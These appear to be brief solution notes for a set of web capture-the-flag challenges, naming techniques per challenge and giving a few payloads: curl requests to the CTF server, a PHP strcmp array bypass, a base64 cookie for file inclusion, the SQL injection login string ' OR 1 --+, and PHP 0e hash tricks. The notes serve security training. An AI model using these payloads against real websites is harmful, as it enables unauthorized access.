 ## php
- eval(); `?input=$flag`


## curl
- curl, GET, POST, header, User-Agent
```
curl 'https://ctf.yuawn.idv.tw:10201/curl/?curl=curry' -d 'curl=curry' -H 'User-Agent: curry'
```


## dear
- Apache show directory /images


## megumi
- HTTP POST, parameter parsing, URL encoding, php strcmp

```
curl 'https://ctf.yuawn.idv.tw:10201/megumi/?love%23megumi' -d "love%3Dmegumi[]"
```

## otaku
- LFI, cookie, base64

1. GET `?page=index`
2. Set cookie: `my_wife=base64(megumi)=bWVndW1p`



## nurse
- SQL Injection, robots.txt

1. /robots.txt
2. _login.php
3. username: `' OR 1 --+`


## bypass
1. md5, `0e`, php
2. `a2[]=1&b2[]=2`

## ais3
- `0e`, PHP weak type


## kiddie

- scripting language, base64, http request, cookie

